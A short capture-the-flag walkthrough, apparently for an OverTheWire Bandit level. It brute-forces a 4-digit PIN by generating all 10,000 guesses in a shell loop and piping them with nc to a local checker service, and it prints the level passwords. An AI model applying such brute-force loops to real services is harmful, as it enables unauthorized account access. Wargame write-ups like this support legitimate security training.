 We need to bruteforce a 4-digit pin, feeding it to port 30002. One of the pins
will give us the password to bandit25. All others will fail.

First, let's see what the port has to say.

```sh
bandit24@bandit:~$ nc localhost 30002         
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

Alright. Let's do this. Let's generate a file full of entries to feed the port.

```
bandit24@bandit:~$ for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> /tmp/gu5ok4Do; done
```

Now let's feed it to the port.

```sh
bandit24@bandit:~$ nc localhost 30002 < /tmp/gu5ok4Do
-snip-
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

